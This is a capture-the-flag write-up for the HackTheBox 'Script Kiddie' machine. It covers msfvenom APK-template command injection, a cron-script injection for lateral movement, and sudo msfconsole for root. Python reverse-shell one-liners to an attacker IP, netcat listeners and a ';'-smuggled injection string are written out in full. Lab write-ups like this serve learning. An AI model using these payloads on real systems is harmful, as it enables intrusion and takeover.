


Hackthebox - Script_kiddie - Write up
So I rooted Script-Kiddie from HackTheBox, which was an easy Linux box. This box was create by 0xdf, thanks to him. It includes a CVE on msfvenom for Foothold, a crontab exploit for the lateral movement and a sudo authorization on metasploit for root part.
Foothold
First we start with a classic nmap scan :
$ nmap -A -p- -T4 10.10.10.226
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
5000/tcp open http Werkzeug httpd 0.16.1 (Python 3.8.5)
|_http-title: k1d 5 h4ck3r t00l5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
So we have a website on port 5000, we decide to go in.


We could see 3 tools, nmap, msfvenom/meterpreter, and searchsploit.
First, I tried to do multiple way of command injection on each field but unfortunately, it doesn’t work. So after a few enumerations with gobuster, I diced to try nikto which found a MIME vulnerability. It says that we could upload the type file that we want on the template option.
So I tried to upload PHP page, to get RCE (Remote Command Execution). The problem is that is couldn’t trigger the file that I uploaded, I could only download it …
I continued my search on this optional template file that we could upload.
I found a CVE(https://www.exploit-db.com/exploits/49491) on exploit DB, which allow command injection on the server with msfvenom and APK template. The CVE includes a metasploit module which create the evil file with reverse shell parameter (our IP and the port where we listen).
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > options
Module options (exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection):
Name Current Setting Required Description
---- --------------- -------- -----------
FILENAME msf.apk yes The APK file name
Payload options (cmd/unix/reverse_netcat):
Name Current Setting Required Description
---- --------------- -------- -----------
LHOST 10.10.15.32 yes The listen address (an interface may be specified)
LPORT 4444 yes The listen port
**DisablePayloadHandler: True (no handler will be created!)**
Exploit target:
Id Name
-- ----
0 Automatic
msf6 exploit(unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection) > exploit
[+] msf.apk stored at /home/art/.msf4/local/msf.apk
So after, we just have to select the malicious template file, put a random IP, select Android (parameter which allow uploading apk template) open a netcat session on port 4444 and generate the meterpreter session.
$ nc -lvnp 4444
Connection from 10.10.10.226:33818
id & whoami
kid
uid=1000(kid) gid=1000(kid) groups=1000(kid)
Lateral movement
So now, we searched to gain pwn user access (the user between us and root). After a few enumerations with linpeas, I found an interesting file in pwn home folder called scanlosers.sh.
#!/bin/bash
log=/home/kid/logs/hackers
cd /home/pwn/
cat $log | cut -d' ' -f3- | sort -u | while read ip; do
sh -c "nmap --top-ports 10 -oN recon/${ip}.nmap ${ip} 2>&1 >/dev/null" &
done
if [[ $(wc -l < $log) -gt 0 ]]; then echo -n > $log; fi
In the content of the script, we could see that the script is going to search in our home folder, the content of /logs/hackers of which we have the rights to write on it.
We can ask ourselves, how the script is executed because in the enumeration phase, we don’t found a particular crontab on this script. To check if the script execute by a cron that we couldn’t see with simple enumeration, we just put a random word on /logs/hackers, and instantly after this modification, when we read the file, It is empty. So now we are sure that this script is executed by a cron of another user than us (enumeration proved it :p ).
Exploitation of the script
The tips here, is to reproduce the environment of the script locally, it allows neglecting nothing. So the script is going to read the /logs/hackers file that we could write on it, It performs a cut command and realize an nmap command with the recover part.
It cut all the part before the second space of the line. We know it’s a bash script, so we could use the “;” separator which allow executing another command. This command is going to be executed as the crontab user, so we could put a reverse shell command to get a shell on him é_é.
So we have to put 2 a and 2 space, a “;” and our reverse shell payload in python.
I tried locally, It works, so we just have to do the same on the machine.
$ echo "a a ;python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.32",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'" > hackers
///////\\\\\\\
# we open a netcat session on port 4444
$ nc -lvnp 4444
Connection from 10.10.10.226:36024
$ whoami
pwn
Privilege escalation
So last part, we move into root user ^^. We start a little linpeas script, and we found something fascinating :
[+] Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for pwn on scriptkiddie:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User pwn may run the following commands on scriptkiddie:
(root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
We could execute msfconsole with root right :o
$ sudo msfconsole
$ whoami
root
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.32",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
/////\\\\\
# we open a netcat session on port 4444
$ nc -lvnp 4444
Connection from 10.10.10.226:36024
/bin/sh: 0: can't access tty; job control turned off
# whoami & id
uid=0(root) gid=0(root) groups=0(root)
# root
And BOOM! We are root é_é. Thank you for your reading and see you later for a new one :)